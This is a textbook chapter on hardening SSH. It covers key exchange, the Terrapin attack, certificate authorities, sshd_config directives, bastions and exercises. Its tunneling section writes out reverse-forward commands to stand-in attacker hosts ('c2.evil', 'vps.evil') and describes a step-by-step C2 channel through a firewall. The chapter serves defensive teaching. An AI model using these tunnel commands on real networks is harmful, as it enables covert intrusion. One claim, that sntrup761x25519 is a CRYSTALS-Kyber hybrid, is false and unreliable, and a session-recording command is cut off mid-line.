

Chapter 17: SSH Security¶
Secure Shell is the backbone of remote server administration, replacing insecure predecessors such as Telnet and rsh. Despite its ubiquity, SSH is frequently misconfigured, letting attackers pivot across infrastructure, establish covert tunnels, or harvest credentials. This chapter dissects the SSH-2 protocol, examines every authentication method, and builds hardened server configurations from the ground up.
17.1 SSH-2 Protocol Architecture¶
SSH-2 supersedes the insecure SSH-1 (which suffered from a CRC32 manipulation vulnerability) and is mandated by RFC 4251–4254. The protocol is organised into three layered sub-protocols.
Definition 17.1 (SSH Protocol Layers)
SSH-2 is composed of three logically separate layers that operate over TCP port 22:
-
Transport Layer (RFC 4253) – Handles key exchange, server authentication, encryption, and integrity protection. Provides a binary packet protocol with negotiated algorithms.
-
User Authentication Layer (RFC 4252) – Authenticates the client to the server using methods such as
publickey,password, andkeyboard-interactive. -
Connection Layer (RFC 4254) – Multiplexes the authenticated session into logical channels: interactive shells, exec commands, port-forwarding, and X11 forwarding.
The SSH handshake proceeds in five steps: (1) version exchange, (2) algorithm negotiation (SSH_MSG_KEXINIT), (3) key exchange producing a shared secret, (4) server host key verification, and (5) service request to begin authentication.
17.2 Key Exchange¶
Key exchange establishes a shared session key without transmitting it over the network. The negotiated KEX algorithm appears in the KexAlgorithms field of sshd_config.
Definition 17.2 (Diffie-Hellman Group 14 SHA-256)
diffie-hellman-group14-sha256 uses a 2048-bit MODP group (RFC 3526, Group 14). The shared secret is hashed with SHA-256 to derive symmetric keys. Acceptable for compatibility but inferior to elliptic-curve methods.
Definition 17.3 (curve25519-sha256)
curve25519-sha256 (RFC 8731) performs an ECDH key exchange on Curve25519. It provides 128 bits of security, is resistant to implementation timing attacks, and is the recommended default for modern deployments.
Recommended KEX Algorithms (2024+)
Prefer in order:
-
curve25519-sha256– Curve25519 ECDH, fastest and most secure -
sntrup761x25519-sha512@openssh.com– Post-quantum hybrid (CRYSTALS-Kyber + Curve25519) -
diffie-hellman-group16-sha512– 4096-bit DH, fallback
Avoid: diffie-hellman-group1-sha1 (Logjam-vulnerable 768-bit), diffie-hellman-group-exchange-sha1.
17.2.1 The Terrapin Attack (CVE-2023-48795)¶
Disclosed in December 2023 by Bäumer, Brinkmann, and Schwenk, Terrapin is a prefix truncation attack on the SSH binary packet protocol. It targets specific cipher mode combinations — specifically chacha20-poly1305@openssh.com and any cipher in -etm@openssh.com (Encrypt-then-MAC) mode for CBC ciphers — that were, at the time of disclosure, the strongest algorithm choices available and widely recommended.
The attack works because the SSH binary packet protocol initialises the sequence number to zero at the start of each direction independently and increments it per packet, but the sequence number is not itself cryptographically bound during the initial handshake phase before keys are derived. An active MITM positioned between client and server can inject or delete a controlled number of messages during the unencrypted handshake prologue (the version string exchange and KEXINIT messages) without the other party detecting the manipulation. After rekeying, the sequence numbers on each side are off by the number of injected or deleted messages. This offset breaks the synchronisation that AEAD nonces depend on for ChaCha20-Poly1305 and undermines the integrity guarantee of EtM MACs.
In practice the most serious consequence is the ability to downgrade the client’s offered host key algorithms or extension negotiation results. For example, an attacker could suppress the ext-info-c extension that enables RSA-SHA2 algorithm negotiation, forcing a fall-back to weaker RSA-SHA1 signatures for host key verification without either side raising an error.
Fix: Strict KEX Extension.
OpenSSH 9.6 (released December 2023 alongside the disclosure) introduced the kex-strict-c-v00@openssh.com and kex-strict-s-v00@openssh.com extension negotiation flags. When both client and server advertise strict KEX, the protocol resets the sequence number to zero immediately after the first key exchange completes and cryptographically binds the handshake transcript so that any injected or deleted message causes a MAC verification failure. Strict KEX is backward compatible: if either side does not advertise it, the session falls back to the old behaviour. Upgrading both client and server to OpenSSH 9.6 or later is the complete fix; patching only one side provides partial protection. Distributions that cannot upgrade immediately should remove chacha20-poly1305 and EtM cipher modes from sshd_config as a temporary workaround, though this degrades security in other respects.
17.3 Host Key Verification¶
The server presents a host key to authenticate itself to the client, preventing man-in-the-middle attacks. Clients record host keys in /.ssh/known_hosts.
Definition 17.4 (Trust on First Use (TOFU))
TOFU is the default SSH policy: on first connection the client displays the host key fingerprint and stores it in known_hosts. Subsequent connections verify the fingerprint matches. This provides no protection on the first connection, where a MITM could substitute a rogue key.
TOFU is Not Authentication
TOFU defers the trust decision to a moment when users rarely verify fingerprints. Attackers performing ARP spoofing or DNS poisoning at initial connection time can establish a persistent MITM. For production infrastructure, use SSH certificate authorities or DNSSEC-signed SSHFP records instead.
Strict host checking prevents silent acceptance of changed keys:
# ~/.ssh/config
Host *
StrictHostKeyChecking yes
HashKnownHosts yes
17.4 Authentication Methods¶
17.4.1 Password Authentication¶
Password authentication transmits the password encrypted inside the SSH tunnel. It’s vulnerable to brute force, credential stuffing, and phishing. Disable it on all public-facing servers.
17.4.2 Public Key Authentication¶
The client proves possession of a private key corresponding to a public key listed in /.ssh/authorized_keys. The server sends a challenge; the client signs it with the private key.
Recommended Key Types
-
Ed25519 – 256-bit EdDSA on Curve25519; fast, compact, and resistant to weak RNG attacks. Preferred.
-
ECDSA (P-256/P-384) – Acceptable; avoid P-521 for compatibility.
-
RSA-4096 – Legacy interoperability only; prefer Ed25519.
-
DSA – Broken; do not use.
# Generate key pair
ssh-keygen -t ed25519 -C "alice@workstation" -f ~/.ssh/id_ed25519
# Deploy public key to server
ssh-copy-id -i ~/.ssh/id_ed25519.pub user@server.example.com
# Verify authorized_keys entry
cat ~/.ssh/authorized_keys
# ssh-ed25519 AAAA... alice@workstation
17.4.3 SSH Certificate-Based Authentication¶
SSH certificates extend public key authentication with a CA model, eliminating TOFU for both host and user authentication.
Definition 17.5 (SSH Certificate Authority)
An SSH CA is an ordinary key pair (typically Ed25519) whose public key is distributed via configuration. The CA signs user or host public keys, embedding validity period, principals, and extensions into a certificate. Clients and servers trust certificates signed by a configured CA, removing the need to distribute individual public keys.
# Generate CA key (keep private key offline or in HSM)
ssh-keygen -t ed25519 -f /etc/ssh/ca_user_key -C "UserCA"
ssh-keygen -t ed25519 -f /etc/ssh/ca_host_key -C "HostCA"
# Sign a user public key: valid 8h, for principal "alice"
ssh-keygen -s /etc/ssh/ca_user_key \
-I "alice@laptop-2024" \
-n alice \
-V +8h \
~/.ssh/id_ed25519.pub
# Produces: ~/.ssh/id_ed25519-cert.pub
# Sign a host public key: valid 52 weeks
ssh-keygen -s /etc/ssh/ca_host_key \
-I "web01.example.com" \
-h \
-V +52w \
/etc/ssh/ssh_host_ed25519_key.pub
# sshd_config: trust the host CA (eliminates TOFU)
# TrustedUserCAKeys /etc/ssh/ca_user_key.pub
# HostCertificate /etc/ssh/ssh_host_ed25519_key-cert.pub
Why SSH CAs Beat authorized_keys at Scale¶
Managing authorized_keys across hundreds of servers is painful. Adding a new engineer requires touching every server they need access to. Revoking access when someone leaves requires the same sweep, and a single missed server leaves a live credential. SSH certificate authorities solve both problems by inverting the trust model.
Instead of distributing individual public keys to servers, you distribute a single CA public key to every server’s TrustedUserCAKeys file. When the server receives a connection, it checks whether the client’s certificate is signed by a trusted CA and whether the requested login name matches one of the certificate’s principals — the list of Unix usernames the certificate is valid for (e.g., -n alice,deploy). No per-user entry is needed anywhere on the server.
Revocation is equally clean. Revoking the CA key invalidates every certificate it ever signed — a nuclear option for a security incident where the CA private key is compromised. For individual certificate revocation (e.g., a specific user’s certificate was stolen), OpenSSH supports a RevokedKeys file or a key revocation list (KRL) via ssh-keygen -k that servers consult before accepting a certificate.
Short-lived certificates and JIT access.
The most secure pattern issues certificates that are valid for the duration of a work session — 8 to 12 hours — and requires re-authentication through the CA each day. Tools like Hashicorp Vault SSH Secrets Engine, Netflix BLESS, and Teleport automate this: a user authenticates to the CA backend (with MFA), receives a signed certificate scoped to the production principals they need, uses it for the day, and has no persistent credential afterward. The server needs no revocation check: if the certificate is expired, it’s rejected. This eliminates the standing-access problem that makes long-lived SSH keys attractive to attackers doing lateral movement.
17.5 Key Exchange Diagram¶

17.6 Hardening sshd_config¶
# /etc/ssh/sshd_config -- hardened template
Protocol 2
Port 22 # Consider non-standard port + port-knock for obscurity
# Host keys: Ed25519 only
HostKey /etc/ssh/ssh_host_ed25519_key
# KEX / Cipher / MAC allowlists
KexAlgorithms curve25519-sha256,sntrup761x25519-sha512@openssh.com
Ciphers chacha20-poly1305@openssh.com,aes256-gcm@openssh.com
MACs hmac-sha2-512-etm@openssh.com,hmac-sha2-256-etm@openssh.com
# Authentication
PermitRootLogin no
PasswordAuthentication no
PubkeyAuthentication yes
AuthorizedKeysFile .ssh/authorized_keys
ChallengeResponseAuthentication no
UsePAM yes
MaxAuthTries 3
LoginGraceTime 30
# Restrict access
AllowUsers alice bob deploy
AllowGroups sshusers
# Session hardening
ClientAliveInterval 300
ClientAliveCountMax 2
TCPKeepAlive no
# Feature restrictions
X11Forwarding no
AllowTcpForwarding no # Set to "local" if tunnels needed
AllowAgentForwarding no
PermitTunnel no
Banner /etc/ssh/banner.txt # Legal warning banner
Directive-by-Directive Rationale¶
The directives in the hardened template are not cargo-culted defaults — each closes a specific attack vector. The following explains what each one does and why it matters.
PermitRootLogin no.
Remote root login combines the highest-privilege account with a predictable username, making it a primary brute-force target. Disabling it forces attackers to first compromise an unprivileged account and then escalate locally, adding a detection opportunity. On systems that require root access, a jump via sudo from a named account preserves the audit trail; remote root would leave only the source IP in logs with no user attribution.
PasswordAuthentication no.
Password authentication is vulnerable to brute force, credential stuffing from breached databases, and phishing. Disabling it forces public key authentication, which requires physical possession of the private key (and its passphrase, if set). This single directive eliminates the entire class of automated scanning attacks that probe SSH on TCP/22 — scanners immediately drop connections to servers that refuse password auth because there is nothing left to guess.
AllowUsers and AllowGroups.
Without an explicit allowlist, any local account can attempt SSH login. System accounts created by packages (e.g., www-data, mysql, nobody) shouldn’t have SSH access. AllowUsers alice bob deploy creates an explicit whitelist; any other account gets an “Access denied” at authentication regardless of key. On larger systems, AllowGroups sshusers is easier to maintain: add users to the group rather than editing sshd_config each time.
MaxAuthTries 3.
Limits authentication attempts per connection. After 3 failures the connection is closed. This rate-limits brute-force attacks without requiring external tooling, though fail2ban should still run as a complementary layer that blocks source IPs after repeated reconnects.
LoginGraceTime 30.
Closes unauthenticated connections that haven’t completed login within 30 seconds. Without this, an attacker can leave thousands of half-open connections, contributing to resource exhaustion. The default is 120 seconds — far too long for any legitimate use case.
ClientAlive Interval and ClientAlive CountMax.
Setting ClientAliveInterval 300 sends a keepalive probe over the encrypted channel every 300 seconds. ClientAliveCountMax 2 drops the connection after 2 missed probes — effectively a 10-minute idle timeout. Together they terminate abandoned sessions that might otherwise persist indefinitely and remain accessible if an attacker reuses the terminal window. Setting TCPKeepAlive no disables the less secure TCP-level keepalive (which operates below the encrypted channel and is spoofable) in favour of the application-level SSH mechanism.
AllowAgentForwarding no.
On a bastion or general-purpose server, forwarding the SSH agent socket means any root-level process on that server can impersonate the connecting user to any host that trusts their key. This is not theoretical: SSH_AUTH_SOCK is visible in /proc/$pid/environ for processes running as root. Disable globally and enable only for specific, explicitly trusted bastions in the client-side /.ssh/config when ProxyJump is not viable.
Banner /etc/ssh/banner.txt.
A pre-login legal warning is required by compliance frameworks (PCI DSS, HIPAA) and strengthens prosecutions under computer fraud statutes. The banner must state that the system is for authorised use only and that activity may be monitored. Without it, defence teams have less legal footing when pursuing unauthorised access cases.
| Category | Algorithm | Status | Notes |
|---|---|---|---|
| KEX | curve25519-sha256 |
\(✓\) Recommended | ECDH, 128-bit |
| KEX | diffie-hellman-group16-sha512 |
\(✓\) Acceptable | 4096-bit DH |
| KEX | diffie-hellman-group14-sha256 |
\(\sim\) Legacy | 2048-bit DH |
| KEX | diffie-hellman-group1-sha1 |
\(\times\) Broken | Logjam-vuln |
| Cipher | chacha20-poly1305@openssh.com |
\(✓\) Recommended | AEAD |
| Cipher | aes256-gcm@openssh.com |
\(✓\) Recommended | AEAD |
| Cipher | aes256-ctr |
\(\sim\) Acceptable | Requires ETM MAC |
| Cipher | 3des-cbc |
\(\times\) Broken | SWEET32 |
| Cipher | arcfour |
\(\times\) Broken | RC4 |
| MAC | hmac-sha2-256-etm@openssh.com |
\(✓\) Recommended | ETM ordering |
| MAC | hmac-sha2-512-etm@openssh.com |
\(✓\) Recommended | ETM ordering |
| MAC | hmac-sha1 |
\(\times\) Broken | SHA-1 collision |
| MAC | hmac-md5 |
\(\times\) Broken | MD5 broken |
17.7 SSH Tunneling¶
SSH can forward arbitrary TCP streams through the encrypted channel, providing a VPN-like capability. This is both a legitimate tool and a favourite attacker technique for bypassing egress controls.
Definition 17.6 (Local Port Forwarding (-L))
Binds a port on the local machine; connections are forwarded through the SSH server to a target host and port reachable from the server. ssh -L 8080:internal.example.com:80 user@bastion.example.com
Definition 17.7 (Remote Port Forwarding (-R))
Binds a port on the remote SSH server; connections are forwarded back to the local machine or a target reachable from it. Attackers use this to expose internal services: ssh -R 4444:localhost:4444 attacker@c2.evil.
Definition 17.8 (Dynamic SOCKS5 Proxy (-D))
Creates a SOCKS5 proxy on the local machine; all traffic routed through the proxy is forwarded via the SSH server to any destination. This effectively provides a VPN through any open SSH port. ssh -D 1080 user@bastion.example.com
SSH as C2 Tunnel
Attackers with a compromised internal host may use remote port forwarding to establish a persistent command-and-control channel through the firewall:
-
Malware on internal host connects outbound on TCP/22 to attacker’s VPS (typically allowed by egress rules).
-
ssh -R 2222:localhost:22 attacker@vps.evilexposes the compromised host’s SSH on the VPS. -
Attacker SSHes to
localhost:2222on the VPS to control the internal host from any network.
Mitigations: restrict AllowTcpForwarding in sshd_config; block outbound TCP/22 except to known bastions; monitor for long-lived SSH connections.
17.8 Jump Hosts and ProxyJump¶
Definition 17.9 (Jump Host (Bastion))
A bastion host is a hardened, network-accessible server that acts as the sole entry point into a protected segment. Users SSH to the bastion, then hop to internal targets. ProxyJump handles this transparently without opening a shell on the intermediate host.
# Single hop
ssh -J alice@bastion.example.com user@10.0.1.50
# Chained hops (bastion -> jump2 -> target)
ssh -J alice@bastion.example.com,bob@jump2.internal user@10.0.2.99
# ~/.ssh/config equivalent (preferred for daily use)
Host internal-*
ProxyJump alice@bastion.example.com
User deploy
IdentityFile ~/.ssh/id_ed25519
Host bastion.example.com
HostName 203.0.113.10
User alice
IdentityFile ~/.ssh/id_ed25519
Agent Forwarding Security Risk
ForwardAgent yes forwards the SSH agent socket to the remote host. A root user on that host can use the forwarded socket to authenticate to any host that trusts your key—without ever obtaining your private key. Always prefer ProxyJump over agent forwarding. If agent forwarding is required, limit it to trusted hosts in /.ssh/config: Host trusted-bastion; ForwardAgent yes.
How ProxyJump Works Mechanically¶
ProxyJump (or the older ProxyCommand with ssh -W) works by having the SSH client establish a connection to the jump host, then ask the jump host to open a TCP channel to the target host. The client’s SSH session to the target runs entirely inside that forwarded channel. Crucially, the client negotiates a separate TLS-like SSH session with the target, end-to-end from the client’s keyboard. The jump host sees only an opaque encrypted stream; it never decrypts the traffic destined for the target and it never receives the client’s private key material. This is fundamentally different from logging into the bastion and then running a second ssh command from there, which would expose credentials to the bastion.
The old ProxyCommand approach required ssh -W %h:%p and was essentially the same mechanism with more syntax. OpenSSH 7.3 (2016) introduced ProxyJump as a cleaner alias. Both approaches work with scp and sftp through the -J flag.
Bastion host hardening.
The bastion itself needs tight security because it’s the entry point to everything behind it. Key configuration choices:
-
AllowAgentForwarding noon the bastion’ssshd_config— the bastion should never forward agent sockets to targets;ProxyJumpmakes this unnecessary. -
AllowTcpForwarding localorno—localallowsProxyJumpchannels while blocking remote port forwarding that could be exploited to expose the bastion’s backend network. -
Permit no interactive shells on the bastion for service accounts; restrict to
ForceCommandorcommand=inauthorized_keys. -
Session recording with
tlogorsshauditto create an immutable audit trail of all bastion sessions. -
Rotate the bastion’s host key every 12 months and update
known_hostscentrally to prevent stale-key MITM.
17.9 Common SSH Attacks and Defences¶
Brute Force and Credential Stuffing
Automated tools (Hydra, Medusa) attempt thousands of username/password combinations against SSH. Defences:
-
Disable
PasswordAuthentication– most effective control. -
Deploy fail2ban or SSHGuard to rate-limit failed attempts.
-
Use a non-standard port to reduce log noise (obscurity, not a primary control).
-
Require MFA (TOTP via
libpam-google-authenticator) as a second factor even with keys.
# /etc/fail2ban/jail.local
[sshd]
enabled = true
port = ssh
filter = sshd
logpath = /var/log/auth.log
maxretry = 3
bantime = 3600 ; 1 hour ban
findtime = 300 ; within 5 minutes
Definition 17.10 (known_hosts MITM Attack)
If an attacker can intercept the first SSH connection (e.g., via ARP spoofing), they can present their own host key. The victim’s client stores the attacker’s key. All subsequent sessions appear legitimate but are being decrypted by the attacker. SSHFP DNS records (RFC 4255) and SSH certificate authorities both mitigate first-connection MITM.
17.10 Bastion Architecture with Session Recording¶
Enterprise environments supplement SSH access control with session recording, providing an audit trail for privileged access.
# Install tlog on bastion (records terminal sessions to journal)
# /etc/tlog/tlog-rec-session.conf
{
"writer": "journal",
"shell": "/bin/bash",
"notice": "NOTICE: Session is being recorded."
}
# Retrieve recorded session
tlog-play -r journal --since="2024-01-15 14:00:00"
# Alternative: script-based recording in /etc/ssh/sshrc
exec script -q -f /var/log/sessions/$(whoami)-$(date +
17.11 Exercises¶
Exercise 17.1
A junior administrator has deployed an Ubuntu server with the following sshd_config settings: PermitRootLogin yes, PasswordAuthentication yes, X11Forwarding yes, and no AllowUsers directive. Identify all security issues and write a corrected configuration file that addresses each one.
Exercise 17.2
Explain the difference between SSH public key authentication and SSH certificate-based authentication. Under what circumstances would certificate authentication be preferable at scale, and what infrastructure is required to support it? What happens when a certificate expires and a user attempts to connect?
Exercise 17.3
An attacker has gained unprivileged shell access to an internal Linux host that sits behind a stateful firewall permitting only outbound TCP/22 traffic. Describe, step by step, how the attacker could use SSH remote port forwarding to establish a persistent C2 channel. What log entries would be generated, and what network-level controls would detect or block this technique?
Exercise 17.4
Your organisation runs 200 Linux servers. Currently each server’s authorized_keys file is managed manually. Propose a migration to SSH certificate-based authentication: describe the CA key management, certificate issuance workflow (including short-lived certificates for privileged access), server-side configuration, and revocation mechanism.